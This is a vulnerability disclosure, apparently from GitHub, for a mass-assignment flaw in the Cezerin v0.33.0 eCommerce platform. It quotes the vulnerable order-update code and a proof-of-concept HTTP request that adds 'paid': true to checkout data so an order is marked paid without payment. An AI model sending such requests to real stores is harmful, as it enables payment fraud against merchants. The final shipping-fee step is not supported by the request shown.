

# Cezerin v0.33.0 unauthorized order information manipulation

## Detail
Cezerin is React and Node.js based eCommerce platform. The vulnerability locates at function `getValidDocumentForUpdate` in `src/api/server/services/orders/orders.js`. This function is for generating orders. However, it is found that certain internal attributes (e.g., `paid` and `tax`) in this function can be overwritten via a conflicting name from user-input. Hence, a malicious cumstoer can manipulate certain order status (i.e., payment status, tax) by adding additional attributes to user-input during checkout. 

```
	getValidDocumentForUpdate(id, data) {
		return new Promise((resolve, reject) => {
			if (Object.keys(data).length === 0) {
				reject(new Error('Required fields are missing'));
			}

			...

			if (data.paid !== undefined) {
				order.paid = parse.getBooleanIfValid(data.paid, false);
			}

```

## PoC
1. Add any item to the chart and checkout.
2. Add additional attributes (e.g., `paid`, `tax`) to the userinput field in the request.

```
PUT /ajax/cart HTTP/1.1
Host: localhost:3001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Content-Length: 588
Origin: http://localhost:3000
Connection: close
Referer: http://localhost:3000/checkout
Cookie: _ga=GA1.1.1210659521.1568517952; referrer_url=s%3A.VIG3VwE%2BqzOTa%2FTXmMU1Tj1vO3ghrPfOD%2Bh3hQpJjnw; landing_url=s%3Ahttp%3A%2F%2Flocalhost%2F.tyZ3uwyR9gAuGEJzxP6kxtZ8cXlAsZTbPH6NKLaAhHk; order_id=s%3A5d8c1cea09fadf6772d41e3e.z1%2FfRRvDSKk04wLupmxf8r1NWouIFRXDL9cq9ibTH8Y

{"shipping_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"billing_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"email":"","mobile":"","payment_method_id":"5d7d501d0ee4e592b6cced84","shipping_method_id":"5d7d501d0ee4e592b6cced83","comments":"", "paid": true}
```

3. The status of the order is set as `paid` without payments.


4. The shipping fee of the order is set as '1.11'.
